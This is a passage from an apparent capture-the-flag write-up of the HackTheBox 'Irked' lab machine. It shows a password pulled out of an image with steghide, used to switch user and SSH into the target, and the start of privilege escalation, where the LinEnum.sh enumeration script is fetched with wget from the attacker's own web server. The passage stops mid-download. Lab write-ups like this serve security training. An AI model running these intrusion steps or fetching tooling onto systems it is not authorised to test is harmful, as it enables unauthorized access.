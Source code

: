     irked.jpg                   100%[========================================>]  33.88K   137KB/s    in 0.2s
    
    2019-04-04 08:56:52 (137 KB/s) - ‘irked.jpg’ saved [34697/34697]
    

Now I’ll try , a command steg tool, with the follow arguments:`steghide`

*   `extract` - I want to extract data
*   `-sf irked.jpg` - give the file to extract from
*   `-p` - passphrase

    root@kali# steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss
    wrote extracted data to "pass.txt".
    
    root@kali# cat pass.txt
    Kab6h+m+bbp2J:HG
    

### su / ssh

That password works as djmardov’s password with :`su`

    ircd@irked:/home/djmardov/Documents$ su djmardov
    Password: 
    djmardov@irked:~/Documents$
    

I can also ssh in:

    root@kali# ssh djmardov@10.10.10.117
    djmardov@10.10.10.117's password:
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Thu Apr  4 07:11:52 2019 from 10.10.14.14
    djmardov@irked:~$
    

Now I can get :`user.txt`

    djmardov@irked:~/Documents$ cat user.txt 
    4a66a78b...
    

## Privesc: djmardov –> root

### Enumeration

I’ll run [LinEnum.sh](https://github.com/rebootuser/LinEnum) to help survey the box. I’ve already got it cloned to my box, so I’ll go into the directory and run the python webserver, . Then I’ll get it on Irked and run it.`python3 -m http.server 80`

    djmardov@irked:/dev/shm$ wget 10.10.14.14/LinEnum.sh
    --2019-04-04 09:01:24--  http://10.10.14.14/LinEnum.sh
    Connecting to 10.10.14.14:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 45650 (45K) [text/x-sh]
    Saving to: ‘LinEnum.sh’
    